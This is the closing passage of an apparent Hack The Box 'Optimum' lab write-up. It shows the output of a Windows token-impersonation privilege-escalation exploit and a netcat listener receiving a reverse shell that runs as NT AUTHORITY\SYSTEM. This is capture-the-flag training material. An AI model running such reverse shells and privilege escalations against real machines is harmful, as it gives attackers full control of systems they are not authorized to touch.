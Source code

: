 ```shell
[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[?] Success, open SYSTEM token handle: 1384
[+] Resuming thread..

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!
```

- **Profit:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Optimum)-[2023.07.28|12:37:47(HKT)]
└> rlwrap -cAr nc -lvnp 53 
listening on [any] 53 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.8] 49212

PS C:\Users\kostas\Desktop^> whoami; ipconfig /all
nt authority\system

Windows IP Configuration

   Host Name . . . . . . . . . . . . : optimum
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Intel(R) 82574L Gigabit Network Connection
   Physical Address. . . . . . . . . : 00-50-56-B9-C7-7F
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv4 Address. . . . . . . . . . . : 10.10.10.8(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2
   DNS Servers . . . . . . . . . . . : 10.10.10.2
   NetBIOS over Tcpip. . . . . . . . : Enabled
[...]
```

I'm `NT AUTHORITY\SYSTEM`! :D

## Rooted
